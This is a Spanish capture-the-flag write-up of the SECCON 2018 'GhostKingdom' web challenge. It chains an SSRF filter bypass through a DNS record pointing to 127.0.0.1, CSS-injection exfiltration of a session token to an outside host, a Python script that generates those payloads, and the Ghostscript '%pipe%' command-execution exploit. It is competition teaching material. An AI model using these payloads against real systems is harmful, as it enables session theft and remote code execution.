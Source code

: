 # CTF SECCON 2018 - GhostKingdom

## Introducción

En la descripción de la prueba únicamente nos indican la siguiente URL
`http://ghostkingdom.pwn.seccon.jp/FLAG/`

![](img/ghostkingdom-001.png)

La pista es que la *flag* se encuentra en un archivo de este directorio, lo que nos hace sospechar desde un principio que el objetivo es conseguir ejecución de comandos para listar los archivos de este directorio.


En la página principal tenemos la opción de login, ademas de poder registrar usuarios.

![](img/ghostkingdom-002.png)

Registramos un usuario

```
http://ghostkingdom.pwn.seccon.jp/?user=patatas&pass1=fritas&pass2=fritas&action=register2
```

Una vez registrado, en el panel de opciones solamente tenemos habilitadas 2 opciones.

![](img/ghostkingdom-003.png)


## Take a Screenshot

La función de *screenshot* permite hacer una captura de pantalla de la URL que le indiquemos.

![](img/ghostkingdom-004.png)

![](img/ghostkingdom-005.png)


Si intentamos acceder a `http://127.0.0.1` obtenemos el siguiente mensaje:

```
You can not use URLs that contain the following keywords: 127, ::1, local
```

La solución es bastante simple, configurar nuestro propio dominio para que resuelva a `127.0.0.1`.

```
l.mydomain.com. IN A 127.0.0.1
```

![](img/ghostkingdom-006.png)

En esta aplicación web, todos los parámetros se pasan por GET. De esta forma podemos autenticamos en la aplicación a través del SSRF.

`http://l.mydomain.com/?user=patatas&pass=fritas&action=login`

![](img/ghostkingdom-007.png)

## Message to admin

Otra funcionalidad de la aplicación es enviar mensajes al administrador.

![](img/ghostkingdom-008.png)


Si marcamos la opción "Emergency" en el mensaje se formatea con CSS a través del parámetro con el mismo nombre.

```
css = c3BhbntiYWNrZ3JvdW5kLWNvbG9yOnJlZDtjb2xvcjp5ZWxsb3d9
```

![](img/ghostkingdom-009.png)


## PWN CSS

Modificando el parámetro `css` podemos inyectar código CSS a la página, sin embargo existen filtros que no nos permiten realizar una inyección HTML o XSS.

El parámetro `csrf` coincide con el valor de la cookie de sesión, por lo que el objetivo será exfiltrar esta información.

Debido a la forma en la que se carga el CSS, no es posible inyectar un payload recursivo que exfiltre el token completo en un solo screnshot, por lo que exfiltraremos cada carácter por separado.

El siguiente código hará que recibamos en nuestro servidor web el primer carácter.

```css
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/0_");}
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/1_");}
...
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/e_");}
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/f_");}
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
```

Una vez probado, realizamos el mismo proceso a través del SSRF. Con este script automatizamos gran parte del proceso de extracción.

```python
import sys
from base64 import b64encode
from urllib import quote as urlencode

if len(sys.argv)>1:
  inicio = sys.argv[1]
else:
  inicio = ''

element = 'input[name="csrf"]'
exfilturl = 'http://mydomain.com'
chars = '0123456789abcdef'

payload = ''
for c in chars:
  value = inicio + c
  payload += '%s[value^="%s"]{background:url("%s/%s");}\n' % (element, value, exfilturl, value+'_')

url = 'http://l.mydomain.com/?css=' + urlencode(b64encode(payload)) + '%2&msg=test&action=msgadm2'
url2 = 'http://ghostkingdom.pwn.seccon.jp/?url=' + urlencode(url) + '&action=sshot2'
print(url2)
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
163.43.113.139 - - [27/Oct/2018:12:30:50 +0200] "GET /b9_
...
163.43.113.139 - - [27/Oct/2018:12:53:09 +0200] "GET /b962fe196d05bbac1417_
163.43.113.139 - - [27/Oct/2018:12:53:40 +0200] "GET /b962fe196d05bbac14178_
163.43.113.139 - - [27/Oct/2018:12:54:21 +0200] "GET /b962fe196d05bbac14178a_

```

El siguiente script automatiza todo el proceso de extracción de la cookie: [seccon-ghostkingdom.py](https://github.com/jesux/ctf-write-ups/blob/master/seccon-2018/GhostKingdom/seccon-ghostkingdom.py)

Finalmente, la cookie obtenida es `b962fe196d05bbac14178a`.

Clonamos la cookie en el navegador y accedemos a la función de subida de imágenes.

![](img/ghostkingdom-010.png)

Una vez subida la imagen JPG, se utiliza el script `ghostMagick.cgi` para convertir la imagen a GIF.

Utilizamos el [exploit de Tavis Ormandy para Ghostscript](https://www.openwall.com/lists/oss-security/2018/08/21/2).

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%ls /var/www/html/FLAG/) currentdevice putdeviceprops
```

![](img/ghostkingdom-011.png)

![](img/ghostkingdom-012.png)

![](img/ghostkingdom-flag.png)
